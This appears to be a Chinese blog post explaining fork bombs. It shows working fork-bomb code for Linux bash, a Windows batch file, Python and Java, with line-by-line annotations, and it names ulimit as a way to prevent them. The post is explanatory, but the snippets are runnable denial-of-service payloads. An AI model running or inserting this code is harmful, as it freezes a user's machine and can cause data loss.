 ```yaml
---
title: Fork Bomb
date: 2017-02-04 10:36:52
comments: true
tags: 系统安全
categories: 技术交流
---
```

　　Fork炸弹（fork bomb）在计算机领域中是一种利用系统调用fork（或其他等效的方式）进行的拒绝服务攻击。fork炸弹以极快的速度创建大量进程（进程数呈以2为底数的指数增长趋势），并以此消耗系统分配予进程的可用空间使进程表饱和，而系统在进程表饱和后就无法运行新程序，除非进程表中的某一进程终止，它可以利用在windows/linux等系统。

#### linux系统

##### Code
```bash
:(){ :|:& };:
```

##### 注解
:()　# 定义函数,函数名为":",即每当输入":"时就会自动调用{}内代码 
{　　# ":"函數起始字元     
:　　# 用递归方式调用":"函数本身     
|　　# 並用管線(pipe)將其輸出引至...（因为有一个管線操作字元，因此會生成一個新的進程）     
:　　# 另一次递归调用的":"函数 # 综上,":|:"表示的即是每次調用函数":"的時候就會產生兩份拷貝     
&　　# 調用間脱鉤,以使最初的":"函数被關閉後為其所調用的兩個":"函數還能繼續執行 
}　　# ":"函數終止字元 
;　　# ":"函数定义结束后将要进行的操作... 
:　　# 调用":"函数,"引爆"fork炸弹



#### Windows系统(创建一个.bat，写入以下命令运行即可)

##### Code
```bash
%0|%0|%0
```
##### 注释
%0就是输出自己本身,也就是.bat，在cmd中即表示运行.bat
|%0就是打开自身后的程序再打开.bat
3的指数倍

##### 预防
一个防止其严重影响系统的方法就是限定一个用户能够创建的进程数的上限，在Linux系统上，可以通过ulimit这个指令达到相应的效果。


#### 编程语言应用

Using Python:

```bash
import os
while 1:
    os.fork()
```

Using Java:

```bash
public class ForkBomb
{
  public static void main(String[] args)
  {
    while(true)
    {
      Runtime.getRuntime().exec(new String[]{"javaw", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
    }
  }
}
```

官方参考链接：[https://en.wikipedia.org/wiki/Fork_bomb](https://en.wikipedia.org/wiki/Fork_bomb)

